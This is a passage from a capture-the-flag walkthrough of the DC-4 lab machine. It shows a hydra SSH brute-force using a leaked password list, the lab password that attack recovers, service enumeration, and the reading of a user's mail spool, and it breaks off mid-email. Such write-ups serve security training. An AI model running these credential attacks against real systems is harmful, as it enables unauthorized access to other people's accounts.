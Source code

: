 www-data@dc-4:/home/jim$ cat backups/old-passwords.bak  
>000000  
>12345  
>iloveyou  
>1q2w3e4r5t  
>1234  
>123456a  
>qwertyuiop  
>...  
  
### SSH - JIM  
  
It seems like a dictionary of passwords... let's run hydra again:  
  
root@kali:~# hydra -l jim -P jimpass.txt ssh://192.168.111.6   
>Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>  
>Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-18 01:01:58  
>[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task  
>[DATA] attacking ssh://192.168.111.6:22/  
>[STATUS] 183.00 tries/min, 183 tries in 00:01h, 76 to do in 00:01h, 16 active  
>[22][ssh] host: 192.168.111.6   login: jim   password: jibril04  
>1 of 1 target successfully completed, 1 valid password found  
>[WARNING] Writing restore file because 10 final worker threads did not complete until end.  
>Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-18 01:03:37  
  
Well, it seems we are Jim now ^^  
  
After some enumerating, breath... Let's see what services are running in the machine:  
  
jim@dc-4:~$ ss -a | grep LISTEN  
>...          
>tcp    LISTEN     0      20     127.0.0.1:smtp                  *:*                      
>tcp    LISTEN     0      128     *:http                  *:*                      
>tcp    LISTEN     0      128     *:ssh                   *:*                      
>tcp    LISTEN     0      20        ::1:smtp                 :::*                      
>tcp    LISTEN     0      128    :::http                 :::*                      
>tcp    LISTEN     0      128    :::ssh                  :::*                     
  
SMTP service running only in localhost? That's a little weird... any interesting mails?  
  
jim@dc-4:~$ cat /var/spool/mail/jim   
>From charles@dc-4 Sat Apr 06 21:15:46 2019  
>Return-path: \<charles@dc-4\>  
>Envelope-to: jim@dc-4  
>Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000  
>Received: from charles by dc-4 with local (Exim 4.89)  
>	(envelope-from \<charles@dc-4\>)  
>	id 1hCjIX-0000kO-Qt  
>	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000  
>To: jim@dc-4  
>Subject: Holidays  
>MIME-Version: 1.0  
>Content-Type: text/plain; charset="UTF-8"  
>Content-Transfer-Encoding: 8bit  
>Message-Id: \<E1hCjIX-0000kO-Qt@dc-4\>  
>From: Charles \<charles@dc-4\>  
>Date: Sat, 06 Apr 2019 21:15:45 +1000  
>Status: O  
>  
>Hi Jim,  
>  